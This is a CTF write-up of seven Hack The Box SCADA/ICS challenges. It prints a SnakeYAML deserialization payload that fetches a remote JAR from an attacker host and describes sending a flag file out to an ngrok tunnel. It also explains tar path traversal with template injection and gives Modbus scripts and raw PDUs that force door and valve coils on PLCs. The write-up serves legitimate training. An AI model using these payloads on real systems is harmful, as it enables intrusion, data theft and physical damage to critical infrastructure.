




# WATERSNAKE

> As the United Nations of Zenium and the Board of Arodor engage in a fierce competition to establish a colony on Mars using Vitalium. State hackers from UNZ identify an exposed instance of the critical facility water management software, Watersnakev3, in one of Arodor's main water treatment plants. The objective is to gain control over the water supply, and weaken the Arodor's infrastructure.

The challenge give us just the ip and port of running `HMI`


We have a open Firmware `Update submission` page


There is nothing else interesting even withg some dirbusting nothing cool at all so I moved on download the challenge files and see what we have. Inside the zip we have a `Dockerfile` and we can replicate the HMI locally, this would be usefull to test the enviroment with a fake flag. Actaully we don't need to create the Dockerfile but we can take a look at the code file and check for some potential vuln.

Makes sense to think is something related to **yaml** and the most common one is the deserialization but avoid rushing and look what we have. We have an `Application.java` file


Interesting springboot is installed and is a good news, multiple machine on HTB are based on springboot framework.

`Contoller.java` light up my doubts


The bottom part, `@PostMapping("/update")` is a deserialization and is not a good combo with springboot.

In the `pom.xml` file we have the springboot and Java version


Also we have the `snakeyml` version which is the 1.33


With all this info I can move on the internet and search for somevulnerability and I have understood that the specific version of `snakeyml` (< 2.0) is vulnerable to....**YAML DESERIALIZATION** more in detail [CVE-2022-1471](https://nvd.nist.gov/vuln/detail/CVE-2022-1471)

We can use this payload to remotely download a JAR file that will contain the payload

```
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://[ATTK_IP]/yaml-payload.jar"]
  ]]
]
```

At first try I have assumed I was on the wrong path because I tried to ping my HTB ip address but everythig failed, looking around at few writeup we need to create a ngrok tunnel (the remote machine probably doesmn't have connection on the HTB virtual interface, interesting)

So creating the tunnel and use it as payload we are able to intercept the requests (luckly I had a preconfigured account)


Pretty good now I used this [PoC](https://github.com/artsploit/yaml-payload/tree/master) to create the payload which would first download a **test.sh** script which pick the `flag.txt`, base64 encode it and sends to the ngrok server we have and a second run of this PoC that would just execute the file.

After that we have what were searching for


<br><br><br><br><br>

# SLIPPY
> You've found a portal for a firmware upgrade service, responsible for the deployment and maintenance of rogue androids hunting humans outside the tractor city. The question is... what are you going to do about it?

We have another web application which allows the user to upload a **<u>tar.gz</u>** file as new firmware version


Like watersnake we have access to the files that the webserver is running (and the docker image file for simulate the enviroment)
The `main.py` reveal that there is **<u>Flask</u>** running


`util.py` is the source code that extract and manage the uploaded file


When we upload a simple archive file the webapp would return the path of each file


I have searched online and pretty fast I found the vulnerability and is a 15+ years old vulnerability, the `CVE-2007-4559`

> A small digression about AI and especially the GitHub CO-PILOT which more than one peson assume is (in part) a good contributor of the return of this vulnerability. The AI learn from other repository but without a big view on the vulnerability on code logic. With the growth on the use of CO-PILOT and the absence of code review the results is that more than 350k Open Source repo are vulnerable to this old-but-gold vulnerability [[1]](https://thehackernews.com/2022/09/15-year-old-unpatched-python.html) we need to be aware and cautios on this brend new technology. People makes error on coding, AI learns from people and results is just the same mistakes but on a larger scale!

The vulnerability allows an attacker to overwrite (or create) new files through the use of absolute path because the `extract()` and `extractall()` functions on the **tarfile** module doesn't properly check the path. I found a [good tool](https://github.com/advanced-threat-research/Creosote) which can be used to review and highlight potential abuse of this


yeah that's exactly this line, we have an opening now!


Cool we need to replicate the file system of the webapp in order to replicate the malicious behavior



In order to create the `malicious tar.gz` file we need to go at the path `test/1/2/3` and use `tar` with the `-P` flag pointing at the `index.html`


The `-P` flag preserve the path we provide allowing us to overwrite the (legit) `index.html` page with the crafted one with paylod `{{2 *2}}`. After the uploading we just have to reload the page and surprise surprise....


It works perfectly both the malicious extraction and the STTI, now we can change the payload in order to return the flag file and we are good to go. This is the html payload



and the results are such a beauty


<br><br><br><br><br>

# WATCH TOWER

> Our infrastructure monitoring system detected some abnormal behavior and initiated a network capture. We need to identify information the intruders collected and altered in the network.

The challenge consist only o a pcap file with just `Modbus/TCP` communications


I first used BustaCap to have a high level analysis of the pcap file


* **<u>192.168.1.252</u>** is the PLC
* **<u>192.168.1.150</u>** is a PC

The point here is to find the flag, I now that every flag on HTB challenges starts with the string `HTB{` which is a good starting point. The only field that can have a sort of representation of the flag are the `Registers` which are 16-bit (hex) numerical register.
We have some **<u>multiple write register</u>** (function code 16) and will be usefull to understand where the first part of the flag pattern start. The first 4 characters of the flag are respectevely `48` `54` `42` and `7b`. I have filtered the packets in order to have just the ones with function code 16 and check for the pattern that has been found on the **[<u>reference number</u>](https://support.cognex.com/docs/is_580/web/EN/ise/Content/Communications_Reference/ModbusReferenceNumberExamples.htm)** field.

Cool I have extracted the packets starting from the first packet of the pattern until I reach the `}` (value `7d`) on the target field. The brand new pcap file will contain only the interesting packet than I just took the **reference value** and create a new column so in wireshark will look like this


Good, what's cooler is when following the **<u>TCP Stream</u>** in Hex Dump format we have the string format of the flag in a column


We have the flag which is `HTB{3nc2yp710n?_n3v32_h342d_0f_7h47!@^}`, well it makes think about the absence of encryption in MODBUS communication!

<br><br><br><br><br>

# INTRUSION
> After gaining access to the enemy's infrastructure, we collected crucial network traffic data from their Modbus network. Our primary objective is to swiftly identify the specific registers containing highly sensitive information and extract that data.

The challenge provide a PCAP file and a simple and small script to connect on the spawned instance


Given the text of the challenge what we need to do is read some value inside of the registers (again is the only place where a flag can be stored somehow), again I filtered the packets just the only one using  `function code 16` (write multiple register).


Each of the filtered packet use a different reference number, makes sense since every register contains just one flag, we can extract them easily with `tshark`


Cool now we can proceed to read the register with a python script (I created a new one on my own to train a little) like this


Cool we have our flag!


<br><br><br><br><br>

# BREACH
> Our relentless search led us to a secure testing site, a hub for concocting chemicals used in planet terraforming. Given its critical nature, a unique door system segregates the entire facility, allowing only a single door to open before a decontamination process ensues. Currently, the control sensors seem to be inoperative, keeping the system idle. Intriguingly, someone seems to have hardwired the sensor inputs to the output coils. Perhaps, this might be our entry point into the building.

We have 3 different files:

1) `client.py` = the usual script probably we are not even touching it because I prefer to start from scratch 
2) `Instructions.txt`



3) `door_control_subsystem.st` = this a strange extension, searching online appears to be at first an **Atari ST Disk Image**. LOL. 


Obviously is nothing relted to Atari but instead is the **<u>Structured Text</u>** file format a human-readable programming language widely used in industrial automation and PLC. It provide an expression of the control logic sequence used to initialize the PLC as alternative of `ladder logic` when more power and expressability is needed (use of library and debugging are muc easier).

Well really cool to get in touch on such file and amplify my PLC knowledge so we can move to analyze this file which is the core of the challenge 


In the **<u>red</u> square** the 5 door boolean variable (`coils`) describing the door state (0 = close / 1 = open), obviously this coils cannot be directly written
We have other `coils` for the 15 sensors in the **<u>purple</u> square**, the purpose of such variables will be explained below 


 5 `TON` (Time Out) variables are initialized on the **<u>blue</u> square**, in ST the implement time-based logic and are usually **<u>retentive</u>** making them consistent even when the power outages (cool stuff!)
**<u>Green</u> square** is how the `TON` variable are implemented showing us the vulnerability tha we can exploit

Let's grab the first line on this square

`TON0(IN := NOT(Door_4) AND NOT(Door_3) AND NOT(Door_2) AND NOT(Door_1) AND sensor_4 AND NOT(sensor_2) AND sensor_1 AND sensor_0 AND system_active, PT := T#8000ms);`

When the following requirements are satisfied a timer start triggering the door with ID 0 to open thanks to the next 2 lines

```
Door_0 := TON0.Q;
door_timer_0 := TON0.ET;
```

The requirements are :
1) **All door closed** = `NOT(Door_4) AND NOT(Door_3) AND NOT(Door_2) AND NOT(Door_1)`
2) **Sensors with id 3, 1 and 0 active** = `sensor_4 AND sensor_1 AND sensor_0`
3) **Sensors with id 2 NOT active** = `NOT(sensor_2)`
4) **System is active** = `system_active`

When the conditions are <u>fully</u> met a timer of 8 seconds start (`PT := T#8000ms`) and when it reach 0 the door0 will open. The door will not be closed automatically so for every interaction will be followed by the reset of the `coils` state.


Cool, cool, cooool stuff right here now I can move to create the functions for every door opening logic.

<br>

We have <u>2 main issues</u> here before writing the code
 * We have no clue about the `unit ID`, we can assume that the value is 1 (I saw online this is a common rule-of-thumb)
 * How we translate the address of the sensors values? This took me quite time researching and the format used in ST file is the [IEC 61131 standard](https://deltamotion.com/support/webhelp/rmctools/Registers/Address_Formats/Addressing_IEC.htm) so for instance the `%QX8.0` can be splitted like it follows :  `%QX` is the format for digital input addresses, `8` is the slot number of the PLC memory and `0` is the coil (or register) number within the slot number. To translate this address in the simple integer that we can use in python we need to multiplicate the prefix number by 8 and than add the suffix (the value after the `.`). For instance the value `%QX8.0` = `8*8 + 0 = 64`, good!

We know have all the knowledge we need to create a script to follow the instruction to open the doors with the order on the txt file and we are able to get the flag starting from register 4!

```python
from pyModbusTCP.client import ModbusClient
from time import sleep

host = '159.65.20.166'
port = 31658
result = ''
flag = ''

sens0  = 64
sens1  = 65
sens2  = 66
sens4  = 68
sens5  = 296
sens6  = 297
sens7  = 298
sens10 = 416
sens11 = 422
sens12 = 134
sens13 = 135
sens14 = 128


client = ModbusClient(host, port, unit_id=1, auto_open=True)


client.write_single_coil(602, True)


######### DOOR 3

print('[!] Door 3 hacking in progress...')

client.write_single_coil(sens11, False)
client.write_single_coil(sens13, True)
client.write_single_coil(sens12, True)
client.write_single_coil(sens10, True)

sleep(6)

print(f"\t[+]Door 3 hacked successfully!")

client.write_single_coil(sens11, True)
client.write_single_coil(sens13, False)
client.write_single_coil(sens12, False)
client.write_single_coil(sens10, False)

sleep(6)

#########

######### DOOR 0

print('[!] Door 0 hacking in progress...')

client.write_single_coil(sens2, False)
client.write_single_coil(sens0, True)
client.write_single_coil(sens1, True)
client.write_single_coil(sens4, True)

sleep(9)

print(f"\t[+]Door 0 hacked successfully!")

client.write_single_coil(sens2, True)
client.write_single_coil(sens0, False)
client.write_single_coil(sens1, False)
client.write_single_coil(sens4, False)

sleep(9)

#######


###### DOOR 4

print('[!] Door 4 hacking in progress...')

client.write_single_coil(sens10, True)
client.write_single_coil(sens14, True)
client.write_single_coil(sens13, True)
client.write_single_coil(sens12, True)


sleep(9)

print(f"\t[+]Door 4 hacked successfully!")

client.write_single_coil(sens10, False)
client.write_single_coil(sens14, False)
client.write_single_coil(sens13, False)
client.write_single_coil(sens12, False)

sleep(9)

#######

####### DOOR 1

print('[!] Door 1 hacking in progress...')

client.write_single_coil(sens6, False)
client.write_single_coil(sens7, True)
client.write_single_coil(sens5, True)
client.write_single_coil(sens0, True)


sleep(6)

print(f"\t[+]Door 1 hacked successfully!")

client.write_single_coil(sens6, True)
client.write_single_coil(sens7, False)
client.write_single_coil(sens5, False)
client.write_single_coil(sens0, False)

sleep(6)

########

####### DOOR 2

print('[!] Door 2 hacking in progress...')

client.write_single_coil(sens7, False)
client.write_single_coil(sens11, True)
client.write_single_coil(sens10, True)
client.write_single_coil(sens5, True)


sleep(9)

print(f"\t[+]Door 2 hacked successfully!")

client.write_single_coil(sens7, True)
client.write_single_coil(sens11, False)
client.write_single_coil(sens10, False)
client.write_single_coil(sens5, False)

sleep(11)

#######

print(f'\n\n\n [!!!] FLAG RETRIVAL \n\n')

##### this is just to look cooler than I am! :)

for i in range(4,45):
	result = client.read_holding_registers(i,1)
	flag  += "".join(map(chr,result))
	print(f"\r{flag}", end='')
	sleep(0.5)
```

Wow this quick script allows to get the flag!


<br><br><br><br><br>

# FACTORY
> Our infrastructure is under attack! The HMI interface went offline and we lost control of some critical PLCs in our ICS system. Moments after the attack started we managed to identify the target but did not have time to respond. The water storage facility's high/low sensors are corrupted thus setting the PLC into a halt state. We need to regain control and empty the water tank before it overflows. Our field operative has set a remote connection directly with the serial network of the system.

We have a pdf, a png and remote access for this challenge.
The **<u>PDF</u>** is the [ladder logic](https://github.com/alstephh/This_Is_Just_A_Hobby/tree/main/SCADA%3AICS/LADDER%20LOGIC%20PROGRAMMING) schema of the water facility


The png explain the interface setup which we have access to and the coil addresses


This time the access is given by a simple interface we can access with `nc` so no need to make scripts this time


All right we have the inital status but the "complicated" thing here is how to send **<u>raw PDU</u>** through the interface. Luckly we don't have to care about the CRC because will be automatic calculated by the PC gateway.


All the data are written in hexadecimal and every PDU must start with the value `52` (82 in hex). Let's take a simple example and create a PDU to read the first 12 input coils

* `52` &#8594; the PLC identifier
* `01` &#8594; the defined Function Code<sup>[[1]](https://modbus.org/docs/Modbus_Application_Protocol_V1_1b.pdf)</sup>
* `0000` &#8594;  the address we start reading
* `000C` &#8594;  the quantity of coils we wanna read (12 in hex)

Aggregate all togheter and we have our payload `52020000000C` ready to be sent into the network


All right now we can move and build packets for our objective, I am gonna split every packet based on the behaviour we need

<br>

1) **<u>Manual Mode Activation</u>**
As we saw before, the status of the water storage is in auto mode and we need the manual one to empty the water tank. We can take a look at the ladder logic diagram now


We need to set the `auto_mode` coil to 0 (false) to activate set the facility in auto mode, really simple for now just have to set the coil `manual_mode_control` to 1 (ON)
 
* `52` 
* `05` &#8594; Function code for writing a single coil
* `26DB` &#8594;  Address **9947** in hex
* `FF00` &#8594; Data value to set coil to true (the documentation is your best friend more than ever here)


Good it worked let's move next!

<br>

2) **<u>in_valve coil disable</u>**
Water has to go out not in, let's close this valve!


Changing the state of the `cutoff_in` coil to 1 should be sufficent so with the same method (changing the payload to `FF00`) we should be able to achieve this. `5205001AFF00` is the PDU and everything was smooth after sending it


<br>

3) **<u>out_valve coil enable</u>**
Now is time to empty the water tank fo real, like step (2) but with the `force_start_out` coil setted to 1


Let's craft the PDU like this `52050034FF00` and enjoy the last complete step with the flag delivery


<br><br><br><br><br>

# STATE OF EMERGENCY
> A DDoS attack is ongoing against our capital city's water management system. Every facility in this system appears to be infected by malware that rendered the HMI interfaces unusable, thus locking out every system administrator out of the SCADA infrastructure. The incident response team has managed to pinpoint the organization's objective which is to contaminate the public water supply system with toxic chemicals from the water treatment facility. We need to neutralize the threat before it's too late! We have also prepared a brief for you with all the information you might need.

This is the final challenge of the track, let's ended it up!

We have a PDF that sum up everything we have used in previous challenges 


We have access (through modbus) just on the green valve/sensors through the interface similar to the `Factory` challenge


The PDF contains some usefull information about the limitations (writing multiple values is NOT allowed) and actions we need to do


<br><br>

### 1) <u>Identify the PLCs ID</u>

The delicate part here is how to discover the PLCs ID, we can do a sort of bruteforce writing a coil and then check if the specific coil has changed. Before I want to understand which coils of which PLC should change to identify PLC and the diagram state can really help us, let's start from the **<u>Water Storage Tank</u>**


Cool, the base value of the water tank are the following


Currently we are in the `Filing State` and we want as first to set the `manual mode control` to **True** and same thing for `force start`. Just to identify the address with the "brute force" approach we can try to change the value of `start` since is needed to reach the drain state

Moving into **<u>Mixer Tank</u>** we can also use the `start` coil trying to identify the corresponding PLC

Cool let's bring all togheter and create a script to identify the **<u>Water Storage Tank</u>**

```python
import socket
import json


host = "159.65.20.166"
port = 31896
modbus_cmd = "050035FF00" # 05 = function write single coil / 0035 = 'start' coil address (present on the PDF) / FF00 = write value 1


for i in range(1,256):
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
                sock.connect((host, port))
                sock.recv(1024)
                sock.recv(1024)
                n = format(i, '02X')

                print(f'\r{n}', end='')

               
             
                # sending the modbus command to the network
                payload = 'modbus ' + n + modbus_cmd + '\n'
                sock.send(payload.encode())
                sock.recv(1024)
                sock.recv(1024)
				
			    # adjust the output and load it as json for a better value retrival
                sock.send(b"system\n")
                sock.recv(1024)
                js2 = sock.recv(1024)
                js2 = js2.split(b"\n")
                water_post = js2[0]
                water_post = json.loads(water_post[27:])
                if (water_post['start'] == 1):
                        print(f"\nWater PLC have ID {n}")
                        sock.close()
                        break
```

Now we can run it, wait a little bit and enjoy the result


I also tried to look at it manually to be 100% sure, we gotta it!


Same thing can be applied to find the **<u>Mixer Tank PLC</u>** changing the address of the `start` coil


Now the PLC are identified and activated, lock and loaded!

<br><br>

### 2) <u>PWNIG</u>
> "[...]Remember we need a clear path for the water with no bottlenecks[...]". If you look at the graphic schema of the water facility the emergency disposal valve is activated manually directly on-site, so we need both in drain state in oder to permit a safe disposal and avoid to make damage (yes I like to fully-impersonate during the challenges/boxes lol)

<br> 

Let's start simple, we need the drain state on the mixer and the water tank
On the **<u>mixer</u>** we can just simply set the `high_sensor` coil to True 

About the **<u>water tank</u>** is more complicated but with some effort and focus we can achieve this. Studying the PDF we have to set `input valve` and `output valve` activated but not after setting the `manual_mode` to true too.

For the 2 valves I took a look at the ladder logic diagram understanding that we need `force_start_out` and `force_start_in` to true




This is not enough because the State diagram show us when the `Low Sensor` is True it return back to `Filing State` (also is needed to activated `input_valve`) so it should be setted to False.

Everything seems correct and I summarized everything translating to modbus PDU


I have run it in order but the flag is not spawning. Interesting the fact that I missed the foundamental coil in the water PLC: the `cutoff` coil. This coil permits to **<u>open/close circuit</u>** so with it disabled we are just assigning the coils but the ladder logic program is not running

So before sending the all the modbus payloads we can overwrite the cutoff coil of the water PLC (`35050044FF00`) will make the program start and everything will go as intended!


<br><br><br><br><br>

# CONCLUSION & CONSIDERATION
First thing first, I've spent a really fun week trying to solve all the challenges improving my python knowledge and understanding more things about modbus, shoutout to hack the box to proide a full path of challenges about SCADA/ICS because online there is a lack of practical exercise about it.
Just a quick search on shodan let you understand the number of PLC which are public interfacing with the net allowing remote acess so good part of the challenges are on point (even if simplified) about what you can find in the wild. I've learned about **Structured Text File** format which was something new for me and I was glad to play with a widely use file for PLC different from the traditional ladder logic. Lastly PCAP analysis using `wireshark` and `tshark` for exracting the right info is athing I always read about but never had my hands dirty on it!

> SCADA/ICS hacking is one of the topics inside hacking that really intrigues me, is relative new and the consequence are tangible in the real world, the risks are REAL when critical infrastructures are compromised. I hope to have the opprtunity to do more of this stuff somehow to simulate attacks scenario and put all I learned togheter. I have no idea at the moment how to achieve that but I will go on with my studies keeping this objective in mind! 
